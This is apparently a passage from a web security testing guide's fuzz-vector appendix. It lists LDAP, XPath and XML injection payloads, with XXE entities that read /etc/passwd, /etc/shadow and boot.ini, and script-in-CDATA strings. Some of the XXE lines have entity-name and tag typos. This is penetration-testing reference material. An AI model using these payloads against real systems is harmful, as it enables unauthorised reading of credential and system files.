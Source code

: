 `admin*)((|userPassword=*)`

`*)(uid=*))(|(uid=*`

## XPATH Injection

For details on XPATH Injection: [Testing for XPath Injection](../4_Web_Application_Security_Testing/4.8_Input_Validation_Testing/4.8.10_Testing_for_XPath_Injection_WSTG-INPVAL-010.md)

`'+or+'1'='1`

`'+or+''='`

`x'+or+1=1+or+'x'='y`

`/`

`//`

`//*`

`*/*`

`@*`

`count(/child::node())`

`x'+or+name()='username'+or+'x'='y`

## XML Injection

Details on XML Injection here: [Testing for XML Injection](../4_Web_Application_Security_Testing/4.8_Input_Validation_Testing/4.8.8_Testing_for_XML_Injection_WSTG-INPVAL-008.md)

`<![CDATA[<script>var n=0;while(true){n++;}</script>]]>`

`<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[<]]>SCRIPT<![CDATA[>]]>alert('gotcha');<![CDATA[<]]>/SCRIPT<![CDATA[>]]></foo>`

`<?xml version="1.0" encoding="ISO-8859-1"?><foo><![CDATA[' or 1=1 or ''=']]></foof>`

`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file://c:/boot.ini">]><foo>&xee;</foo>`

`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xee;</foo>`

`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///etc/shadow">]><foo>&xee;</foo>`

`<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///dev/random">]><foo>&xee;</foo>`
